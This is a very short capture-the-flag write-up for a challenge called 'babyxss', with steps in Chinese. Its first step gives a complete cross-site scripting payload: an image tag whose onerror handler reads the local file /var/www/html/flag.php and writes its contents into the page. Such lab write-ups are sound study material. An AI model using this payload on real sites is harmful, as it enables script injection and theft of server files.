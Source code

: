# Title
babyxss
# Tools
firefox or chrome
# Steps
* step 1 输入框输入<img src="e" onerror="var x=new XMLHttpRequest();x.open('GET','file:///var/www/html/flag.php',false);x.send(null);document.write('<textarea>'+x.responseText+'</textarea>');">
* step 2 点击即可在图片中获得flag
